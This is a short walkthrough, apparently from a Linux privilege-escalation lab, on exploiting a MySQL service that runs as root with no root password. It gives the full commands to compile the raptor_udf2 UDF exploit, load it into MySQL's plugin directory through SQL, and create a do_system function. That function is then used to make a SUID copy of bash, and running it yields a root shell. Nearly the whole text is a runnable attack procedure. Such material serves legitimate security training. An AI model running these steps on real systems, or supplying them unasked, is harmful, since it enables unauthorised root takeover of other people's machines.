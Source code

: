 # mysql running as root

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the mysql-udf directory downloaded from the above link:

Compile the raptor\_udf2.c exploit code using the following commands:

`gcc -g -c raptor_udf2.c -fPIC`\
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`



Connect to the MySQL service as the root user with a blank password:

`mysql -u root`\


Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:

`use mysql;`\
`create table foo(line blob);`\
`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`\
`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`\
`create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`
